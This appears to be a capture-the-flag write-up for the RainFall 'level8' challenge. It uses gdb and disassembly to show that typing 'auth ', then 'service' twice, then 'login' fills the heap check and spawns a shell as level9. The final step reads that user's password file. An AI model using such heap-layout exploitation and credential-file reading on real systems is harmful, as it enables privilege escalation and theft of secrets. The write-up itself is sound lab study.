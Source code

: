 The complexity here is to read the operations of the `main`. Let's try the program :

```
level8@RainFall:~$ ./level8
(nil), (nil) 
```

It keeps looping, and keep stdin open listening to its values every time.

```
iVar2 = fgets(auStack144, 0x80, _stdin);
```

Thanks to `fgets`, `stdin` value is saved in `auStack144`.

```
printf("%p, %p \n", _auth, _service); 
```

We understand that there are 2 global variables named `auth` and `service` that can be usefull to us, let's check;

```
(gdb) info variables
All defined variables:

Non-debugging symbols:

...

0x08049aac  auth
0x08049ab0  service

...
```

When we look at the `main` function, we can see that `auStack144` value si compared with the 4 string `"auth " "reset" "service" "login"` that are some kinds of commands; with "login", we have to find how to unlock `system("/bin/sh");`

```
0x080486e2 <+382>:	mov    eax,ds:0x8049aac
0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
0x080486ea <+390>:	test   eax,eax
```
to unlock the shell, there is a check if something comes 32 bytes (0x20) after `auth`.


1. type `auth ` to create a pointer on a memory zone in the heap
```
0x080485eb <+135>:	call   0x8048470 <malloc@plt>
0x080485f0 <+140>:	mov    ds:0x8049aac,eax
0x080485f5 <+145>:	mov    eax,ds:0x8049aac
0x080485fa <+150>:	mov    DWORD PTR [eax],0x0
```

in gdb, I set a breakpoint at the `printf` call :
```
Starting program: /home/user/level8/level8 

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x auth
0x0:	Cannot access memory at address 0x0
(gdb) c
Continuing.
(nil), (nil) 
auth 

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x auth
0x804a008:	0x0000000a
```

2. the `service` command use `strdup` that also uses `malloc`, and we can observe that its value increases :
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
service
(nil), 0x804a008 
service
(nil), 0x804a018 
```

So we know we must initialize by typing `auth ` one time and then if we calculate :
```
>>> int('0x20', 16) + int('0x804a008', 16)
134520872
>>> hex(134520872)
'0x804a028'
```
so we have to type `service` two times then `login`.

```
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
$ cat /home/user/level9/.pass
```



